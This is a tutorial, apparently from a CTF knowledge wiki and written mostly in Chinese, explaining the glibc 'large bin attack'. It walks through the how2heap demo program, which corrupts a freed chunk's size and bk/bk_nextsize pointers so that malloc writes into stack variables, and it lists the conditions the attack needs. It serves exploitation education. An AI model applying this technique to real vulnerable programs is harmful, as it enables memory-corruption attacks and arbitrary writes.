[EN](./large_bin_attack.md) | [ZH](./large_bin_attack-zh.md)

# Large Bin Attack


分配跟 large bin 有关的 chunk，要经过 fastbin，unsorted bin，small bin 的分配，建议在学习 large bin attack 之前搞清楚 fastbin，unsorted bin 分配的流程


## 通过实例学习 large bin attack 的原理


这里我们拿 how2heap 中的 large bin attack 中的源码来分析

```c
// 主要漏洞在这里
/*

    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/

    [...]

              else
              {
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;
              }
              bck = fwd->bk;

    [...]

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;

    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.

    [...]

 */

// gcc large_bin_attack.c -o large_bin_attack -g
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
                    "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                    " the third large chunk during the free()\n\n");
    malloc(0x20);

    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void* p4 = malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                    " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                    ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                    " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}

```


编译完以后，注意！一定要用 glibc2.25 的 loader，改变 loader 的方法可以看这里：https://www.jianshu.com/p/1a966b62b3d4


pwngdb 走起，开始我们的分析之旅：





先跳到这个语句：（比 how2heap 源文件多添加了一个 p4 变量）





由于刚 free() 掉了两个 chunk。现在的 unsorted bin 有两个空闲的 chunk




要注意的是：


p1 的大小是 `0x330 < 0x3f0` 大小属于 small bin，而 p2 的大小是 `0x410` 属于large bin


 


75 行做了很多事情，我来概述一下：


+ 从 unsorted bin 中拿出最后一个  chunk（p1 属于 small bin 的范围）
+ 把这个 chunk 放入 small bin 中，并标记这个 small bin 有空闲的 chunk
+ 再从 unsorted bin 中拿出最后一个 chunk（p2 属于 large bin 的范围）
+ 把这个 chunk 放入 large bin 中，并标记这个 large bin 有空闲的 chunk
+ 现在 unsorted bin 为空，从 small bin （p1）中分配一个小的 chunk 满足请求 0x90，并把剩下的 chunk（0x330 - 0xa0）放入 unsorted bin 中


也就是说，现在：





unsorted bin 中有一个 chunk 大小是 `0x330 - 0xa0 = 0x290`


large bin 某一个序列的 bin 中有一个 chunk 大小是 `0x410`


**好我们继续调试**：





又 free 了一个大小为 0x410 的 large bin chunk。也就是说现在 unsorted bin 有两个空闲的 chunk，末尾是大小 `0x290` 大小的 chunk，第一个是 size 为 `0x410` 的 chunk。


接着开始构造：





修改 p2（large bin chunk），修改结果如下：




再来看看`malloc(0x90)`做了什么：





中间的过程概述一下，待会详细说重点：


与第一次 `malloc(0x90)` 过程类似：


+ 从 unsorted bin 中拿出最后一个 chunk（size = 0x290），放入 small bin 中，标记该序列的 small bin 有空闲 chunk
+ 再从 unsorted bin 中拿出最后一个 chunk（size = 0x410）




**重点来了：**


由于这次拿的是属于 large bin chunk，进入了 else 分支：





我们继续：




**在一个序列的 large bin chunk 中 fd_nextsize 的方向是 size 变小的方向。这个循环的意思是找到一个比当前 fwd 指的 chunk 要大的地址，存入 fwd 中**。


由于当前 fwd 的 size 被我们修改过=`0x3f0`，所以没有进入循环。在这里就有一个漏洞的限制，放在后面说。




这个原本的意思是把从 unsorted bin 中来的 chunk 插入这个序列中，但是这里没有检查合法性。这里存在这一个利用：


之前做的构造，把 fwd 的 bk_nextsize 指向了另一个地址


```c
victim->bk_nextsize = fwd->nextsize
// then
victim->bk->nextsize->fd_nextsize = victim;
```


也就是：


```c
addr2->fd_nextsize = victim;
// 等价于
*(addr2+4) = victim;
```


所以修改了 `stack_var2` 的值。


接着还存着另外一个利用：





```c
fwd->bk = victim;
// 等价于
*(addr+1) = victim;
```


修改了 stack_var1 的值。


至此利用完毕。由于最后分配的还是 small bin 中的 chunk，与 large bin 中的 chunk 也无关了。


## 总结  large bin attack 的利用方法


how2heap 中也说了，large bin attack 是未来更深入的利用。现在我们来总结一下利用的条件：


+ 可以修改一个 large bin chunk 的 data
+ 从 unsorted bin 中来的 large bin chunk 要紧跟在被构造过的 chunk 的后面


